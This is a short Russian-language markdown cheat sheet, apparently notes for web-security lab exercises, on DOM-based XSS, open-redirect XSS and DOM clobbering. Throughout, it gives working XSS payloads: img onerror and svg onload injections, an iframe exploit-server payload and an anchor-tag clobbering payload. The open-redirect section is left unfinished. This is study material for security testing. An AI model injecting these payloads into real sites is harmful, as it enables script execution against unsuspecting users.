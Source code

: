 # DOM-Based XSS
1. Проверить закрытие тегов: `"><svg onload=alert(1)>`
2. Проверить input-ы: `<img src=1 onerror=alert(1)>`
3. Проверить qvery параметры: `?name='<img src=1 onerror=alert(1)>//`
4. Приложение может ожидать от пользователя ввод после `#`, тогда можно использовать exploit сервер с телом: `<iframe src="https://<site>/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
5. Разработчик мог не обработать пользовательский ввод циклом: `<><><img src=1 onerror=alert(1)>`
## Open-redirection XSS

1. Может существовать возможность перенаправить пользователя на свой уязвимый ресурс, допусти через query параметр: `../?url=<my.site>`
2.  
## DOM clobbering
https://portswigger.net/web-security/dom-based/dom-clobbering
Если несколько html тегов имеют одинаковые атрибуты, то в window создаётся ключ-коллекция с этим атрибутом. Значит если мы создадим тег с атрибутом, который уже используется в скриптах самим приложением, то сможем проэксплуатировать уязвимость:
пусть существует js функционал:
``` 
...
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">';
...
```
тогда можно создать из пользователского ввода следующий тег, который заменит собой переменную **`defaultAvatar`**:
```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
где **cid** - спeцсимвол для частного случая, когда можно избежать кодировки ", который оставил разработчик. 
